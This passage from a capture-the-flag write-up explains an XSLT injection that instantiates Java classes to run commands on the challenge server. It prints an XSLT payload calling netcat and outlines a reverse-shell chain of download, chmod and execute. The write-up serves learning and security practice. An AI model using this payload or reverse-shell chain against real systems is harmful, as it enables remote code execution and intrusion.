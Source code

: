 Since we have access to all Java classes, we can easily instantiate a `String` instance and perform a call to its `split` method to get a `String[]` instance that holds both the program and its arguments. When this `String[]` variable is available, we can just pass it to the `run` method of the instantiated `FileService` in XSLT:

```xml
<xsl:variable name="payload" select="java:java.lang.String.new('nc localhost 4444')"/>
<xsl:variable name="params" select="java:split($payload, ' ')"/>
<xsl:variable name="fileservice" select="java:org.ibctf.service.FileService.new($avatar)"/>
<xsl:variable name="output" select="java:run($fileservice, $params)"/>
```

## Getting the flag

Since `run` allows us to execute only one program (chaining them will fail the execution), we can obtain a reverse shell in a few simple steps:
- Run an HTTP server that contains the reverse shell script
- Run a reverse shell listener
- Force the server to:
  - Download the reverse shell script via HTTP
  - Execute `chmod +x` on the shell script
  - Run the shell script

The complete flow explained in the writeup is written in code and can be found in the `solve.py` script.

When we access the machine there is a note in the home folder explaining how to read the `flag.txt` file:

![solve-run.png](solve-run.png)
